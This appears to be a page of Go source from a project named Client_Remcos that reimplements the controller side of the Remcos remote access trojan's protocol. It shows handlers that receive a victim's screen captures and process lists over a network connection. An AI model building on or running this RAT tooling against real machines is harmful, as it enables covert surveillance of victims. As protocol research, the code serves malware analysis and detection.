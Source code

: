 -   remcos\_xx/command\_Screen\_Capture.go

```bash
package remcos_xx

import (
    "Client_Remcos/common"
    "encoding/hex"
    "fmt"
    "net"
    "strings"
)

func Command_Screen_Capture(conn net.Conn) {
    recvdata, err := RecvBuf(conn)
    if err != nil {
        fmt.Println(err.Error())
        panic(0)
    }
    //fmt.Println(hex.EncodeToString(recvdata))

    hex_datas := strings.Split(hex.EncodeToString(recvdata[4:]), "7c1e1e1f7c")
    filename, _ := hex.DecodeString(hex_datas[0])
    bufdata, _ := hex.DecodeString(hex_datas[1])

    fmt.Println("screen_capture output:" + "截屏保存于" + string(filename) + ".png" + "文件中")
    common.Writefile(string(filename)+".png", string(bufdata))
}
```

-   remcos\_xx/command\_Process\_Manager.go

```bash
package remcos_xx

import (
    "bytes"
    "fmt"
)

func Command_Process_Manager(buf_recv []byte) {
    datas := bytes.Split(buf_recv, []byte{0x7c, 0x1e, 0x1e, 0x1f, 0x7c})

    list_process := datas[0]
    pid_current := datas[1]

    fmt.Println("current process PID：" + string(pid_current))

    fmt.Println("Process Name\tPath\tPID")
    list_process = bytes.ReplaceAll(list_process, []byte{0x00}, []byte{})
    list_process = bytes.ReplaceAll(list_process, []byte{0xa6, 0x30, 0x7c}, []byte("\n"))
    list_process = bytes.ReplaceAll(list_process, []byte{0xa6}, []byte("\t"))
    fmt.Println(string(list_process))

}
```
